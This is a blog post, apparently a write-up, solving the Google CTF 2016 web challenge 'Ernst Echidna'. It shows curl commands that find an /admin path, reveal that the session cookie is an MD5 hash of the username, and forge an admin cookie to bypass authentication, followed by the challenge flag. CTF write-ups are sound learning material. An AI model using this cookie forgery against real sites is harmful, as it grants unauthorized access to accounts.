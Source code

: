 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/05/02/google-ctf-2016-ernst-echidna/
date: 2016-05-02T02:33:12+09:00
tags: [ "ctf", "web", "writeup", "google-ctf" ]
"target_url": [ "https://capturetheflag.withgoogle.com/challenges/" ]
---
```


# Google Capture The Flag 2016: Ernst Echidna

Follow the hint in the problem statement, you can know there is a directory `/admin`. And it seems that check the user by the cookie.

``` sh
$ curl --insecure https://ernst-echidna.ctfcompetition.com/robots.txt
Disallow: /admin
```

When you do register, a cookie is baked.

``` sh
$ curl --insecure -D- https://ernst-echidna.ctfcompetition.com/register -F username=hoge -F password=fuga
HTTP/1.1 100 Continue

HTTP/1.1 302 Found
Location: /welcome
Content-Type: text/html; charset=utf-8
Date: Sun, 01 May 2016 06:27:54 GMT
Server: Google Frontend
Content-Length: 0
Set-Cookie: md5-hash=ea703e7aa1efda0064eaa507d9e8ab7e; Path=/
Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
```

And it is matchs with the username.

``` sh
$ echo -n hoge | md5sum
ea703e7aa1efda0064eaa507d9e8ab7e  -
```

So you should md5sum the string `admin` and throw it.

``` sh
$ echo -n admin | md5sum
21232f297a57a5a743894a0e4a801fc3  -

$ curl --insecure -D- https://ernst-echidna.ctfcompetition.com/admin --cookie md5-hash=21232f297a57a5a743894a0e4a801fc3
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
Date: Sun, 01 May 2016 06:28:45 GMT
Server: Google Frontend
Cache-Control: private
Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
Accept-Ranges: none
Transfer-Encoding: chunked

<html>
  <head>
   <meta charset="utf-8">
   <title>gloomy-scorpion</title>
   <link rel="stylesheet" href="/static/bootstrap.min.css" media="screen">
  </head>
  <body>
    <div class="container">
      <h1>The authentication server says..</h1>
      <p>Congratulations, your token is &#39;CTF{renaming-a-bunch-of-levels-sure-is-annoying}&#39;</p>
    </div>
  </body>
</html>
```
